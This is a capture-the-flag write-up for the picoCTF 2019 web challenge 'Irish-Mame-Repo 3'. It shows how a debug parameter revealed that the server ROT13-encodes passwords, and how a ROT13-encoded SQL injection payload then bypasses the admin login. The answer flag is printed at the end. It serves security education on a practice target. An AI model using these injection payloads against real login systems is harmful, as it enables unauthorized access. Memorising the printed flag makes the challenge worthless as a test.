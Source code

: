 # Irish-Mame-Repo 3 - 350 points
Web_Exploitation

## Description:
> There is a secure website running at https://2019shell1.picoctf.com/problem/21874/ (link) or http://2019shell1.picoctf.com:21874. Try to see if you can login as admin!

## Hint:
> Seems like the password is encrypted.

## Solving:

The admin log in page doesn't seem to like a simple SQLi so I tried the password 'admin123' and looked at the network monitor. In the request body we get ```password=admin123&debug=0```. If we change debug to ```1``` we can see what is happening:

```php
password: admin123
SQL query: SELECT * FROM admin where password = 'nqzva123'
```
The server is substituting letters so if we try again with a ```' OR 1=1--'``` SQLi we can see what the subsitution is doing by changing the parameters to resend as ```password=%27+OR+1%3D1--&debug=1``` in the network monitor, the response:
```php
password: ' OR 1=1--
SQL query: SELECT * FROM admin where password = '' BE 1=1--'
```
The ```OR``` is substituted by ```BE```. So if we input a SQLi as ```' BE 1=1--``` we should be able to bypass the password field.

>Logged in!
>
>Your flag is: picoCTF{3v3n_m0r3_SQL_d78e3333}


### Flag: 

```
picoCTF{3v3n_m0r3_SQL_d78e3333}
```
